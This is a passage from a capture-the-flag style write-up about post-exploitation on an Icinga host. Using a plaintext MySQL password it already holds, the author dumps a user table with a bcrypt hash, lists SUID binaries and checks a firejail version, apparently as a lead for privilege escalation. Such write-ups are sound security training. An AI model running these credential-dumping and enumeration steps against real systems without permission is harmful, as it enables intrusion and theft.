 Given the open 3306 port, I guessed that mysql is running.
Let's try checking mysql service.

Since the shell is not working with mysql, I ran it with `-e` option.

```bash
www-data@icinga:/$ mysql -u matthew -pIcingaWebPassword2023 -e "SHOW DATABASES;"
<atthew -pIcingaWebPassword2023 -e "SHOW DATABASES;"
Database
icingaweb2
information_schema


www-data@icinga:/$ mysql -u matthew -pIcingaWebPassword2023 -e "use icingaweb2;show tables;"
<ngaWebPassword2023 -e "use icingaweb2;show tables;"
Tables_in_icingaweb2
icingaweb_group
icingaweb_group_membership
icingaweb_rememberme
icingaweb_user
icingaweb_user_preference


www-data@icinga:/$ mysql -u matthew -pIcingaWebPassword2023 -e "use icingaweb2;select * from icingaweb_user;"
<3 -e "use icingaweb2;select * from icingaweb_user;"
name    active  password_hash   ctime   mtime
matthew 1       $2y$10$XL4/y9uLpQqGA5lB0PTxreAnounQo.OR39REJIZ8NB/D6Xn4KQpVu       2023-01-26 15:20:37     NULL
```

Nothing useful, the only hash is just for `matthew` that I already know the plain password.

```bash
www-data@icinga:/tmp$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/sbin/ccreds_chkpwd
/usr/bin/mount
/usr/bin/sudo
/usr/bin/firejail
/usr/bin/chfn
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/ksu
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1


www-data@icinga:/usr/share/icingaweb2/public$ firejail --version
firejail --version
firejail version 0.9.68rc1

Compile time support:
        - always force nonewprivs support is disabled
        - AppArmor support is enabled
        - AppImage support is enabled
        - chroot support is enabled
        - D-BUS proxy support is enabled
        - file transfer support is enabled
```